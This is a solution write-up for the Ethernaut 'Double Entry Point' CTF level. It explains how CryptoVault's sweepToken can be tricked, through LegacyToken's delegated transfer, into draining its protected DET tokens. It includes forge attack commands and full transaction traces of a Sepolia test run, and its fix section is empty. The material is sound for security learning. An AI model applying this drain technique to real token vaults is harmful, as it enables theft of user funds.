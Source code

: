 # Double Entry Point

This level features a `CryptoVault` with special functionality, the `sweepToken` function. This is a common function used to retrieve tokens stuck in a contract. The `CryptoVault` operates with an `underlying` token that can't be swept, as it is an important core logic component of the `CryptoVault`. Any other tokens can be swept.

The underlying token is an instance of the DET token implemented in the `DoubleEntryPoint` contract definition and the `CryptoVault` holds 100 units of it. Additionally the `CryptoVault` also holds 100 of `LegacyToken LGT`.

In this level you should figure out where the bug is in `CryptoVault` and protect it from being drained out of tokens.

The contract features a `Forta` contract where any user can register its own `detection bot` contract. `Forta` is a decentralized, community-based monitoring network to detect threats and anomalies on DeFi, NFT, governance, bridges and other Web3 systems as quickly as possible. Your job is to implement a detection bot and register it in the `Forta` contract. The bot's implementation will need to raise correct alerts to prevent potential attacks or bug exploits.

[Contract ABI Specification](https://docs.soliditylang.org/en/latest/abi-spec.html#contract-abi-specification)

[Forta docs](https://docs.forta.network/en/latest/quickstart/)

## Double Entry Point (DEP)

A `Double Entry Point (DEP)` in the context of token contracts is a security mechanism designed to protect smart contracts, especially those handling tokens, from unauthorized access or vulnerabilities.

While the term `Double Entry Point` isn't standard in Ethereum or smart contract development, the concept can be inferred to involve an additional layer of security or validation before certain actions can be performed, particularly those that could lead to the unauthorized movement of tokens.

### Conceptual Overview

1. `Standard Token Contract`: A typical token contract allows users to transfer tokens from one account to another. It includes functions like `transfer` and `approve`, which, if not properly secured, could be exploited.
2. `Double Entry Point Mechanism`: Introduces an additional layer or checkpoint before executing sensitive operations. This could be implemented in various ways, such as:
   - `Proxy Contracts`: A `DEP` might use a proxy contract that forwards calls to the main token contract. The proxy can contain additional checks or logic to validate transactions before they reach the token contract.
   - `Detection Bots`: A system like `Forta` allows for the registration of detection bots. These bots can monitor transactions for suspicious activity and potentially halt or flag transactions before they are executed, acting as a `DEP` by providing an additional validation step.


## Vulnerability

1. Initial setup:
   1. `CryptoVault` holds DET tokens and possibly other ERC20 tokens.
   2. `LegacyToken (LGT)` is an ERC20 token with an added delegation feature.
   3. `DoubleEntryPoint` is another ERC20 token (`DET`) that implements `DelegateERC20^ for delegation purposes and has a reference to `CryptoVault`.
2. Safeguard:
   1. `CryptoVault` has a `sweepToken` function designed to transfer any ERC20 token it holds to a predefined recipient, except for its underlying token (`DET` in this case), to prevent draining the vault of its primary asset.
3. Attack:
   1. The attacker notices that `LegacyToken (LGT)` can delegate its transfer function to another contract (`DoubleEntryPoint`) through `delegate.delegateTransfer`.
   2. The attacker invokes `sweepToken` on `CryptoVault`, specifying the `LGT` token as the token to sweep.
   3. `CryptoVault` checks if `LGT` is the underlying token (`DET`), which it's not, so it proceeds.
   4. `CryptoVault` calls `LGT.transfer`, intending to transfer LGT tokens.
4. Exploiting the delegation:
   1. `LegacyToken`'s `transfer` function is overridden to delegate the transfer to `DoubleEntryPoint` if a delegate is set.
   2. The call becomes `DoubleEntryPoint.delegateTransfer`, with the `to` parameter being the `sweptTokensRecipient`, the `value` being `CryptoVault`'s total balance of `LGT`, and `msg.sender` being `CryptoVault`.
5. Bypassing Safeguards:
   1. In `DoubleEntryPoint`, the `delegateTransfer` function checks if `msg.sender` is the `LegacyToken` contract, which it is, thus bypassing the `onlyDelegateFrom` modifier.
   2. The `fortaNotify` modifier is designed to interact with a `Forta` detection bot but does not prevent the transfer.
   3. `DoubleEntryPoint` then transfers `DET` tokens (the underlying asset of `CryptoVault` that was supposed to be safeguarded) to the specified recipient, effectively draining the vault of its primary asset.

## Attack

1. Context scan.

```bash
forge script script/DoubleEntryPointScan.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

Traces:
  [19238] DoubleEntryPointScan::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760 # CryptoVault contract
    ├─ [2347] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760::underlying()
    │   └─ ← [Return] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C # DoubleEntryPoint/Ethernaut contract
    ├─ [2383] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x9220518ea80d4014e1895dba20B7F77f5655E57B # Legacy token contract
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]
```

2. Deploy `DoubleEntryPointAttack` contract to swept DET tokens.

```bash
forge script script/DeployDoubleEntryPointAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

Traces:
  [116080] DeployDoubleEntryPointAttack::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760
    ├─ [2347] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760::underlying() [staticcall]
    │   └─ ← [Return] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C
    ├─ [2383] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x9220518ea80d4014e1895dba20B7F77f5655E57B
    ├─ [57067] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760::sweepToken(0x9220518ea80d4014e1895dba20B7F77f5655E57B)
    │   ├─ [2557] 0x9220518ea80d4014e1895dba20B7F77f5655E57B::balanceOf(0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760) [staticcall]
    │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   ├─ [48677] 0x9220518ea80d4014e1895dba20B7F77f5655E57B::transfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20])
    │   │   ├─ [45519] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::delegateTransfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20], 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760)
    │   │   │   ├─ [2573] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::usersDetectionBots(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2) [staticcall]
    │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   │   ├─ [2541] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   ├─ [758] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::notify(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 0x9cd1a12100000000000000000000000064dd9d94818a2ca2e95c31b084aef0cc92e86da20000000000000000000000000000000000000000000000056bc75e2d63100000000000000000000000000000faf657db02db174eb45ec8a0f5c8c45e0f1c9760)
    │   │   │   │   └─ ← [Stop] 
    │   │   │   ├─ emit Transfer(from: 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760, to: 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, value: 100000000000000000000 [1e20])
    │   │   │   ├─ [541] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] true
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]

# https://sepolia.etherscan.io/tx/0x6ffc455b6abc65384b1972b93d1a5b29ce9b47cbfe4e43453f9a07f1e0256ac3
```

## Forta Bot

1. Deploy `FortaBot`

```bash
forge script script/DeployFortaBot.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv
```


## Fix

